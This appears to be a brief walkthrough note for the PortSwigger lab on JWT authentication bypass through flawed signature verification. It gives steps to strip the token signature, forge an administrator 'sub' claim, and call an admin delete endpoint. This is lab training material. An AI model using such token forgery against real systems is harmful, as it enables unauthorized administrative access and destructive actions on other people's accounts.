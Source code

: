 https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-flawed-signature-verification

If the encryption algorithm is none, the signature JWT part can be totally omitted.
- intercept the traffic
- Remove the third JWT part 
- Use jwt.io or JWT editor to decode to base64 the following payload
	```json
	{  
    "iss": "portswigger",  
    "exp": 1745610846,  
    "sub": "administrator"  
    }	
	```
- Send a GET request to `/admin/delete?username=carlos` with the admin token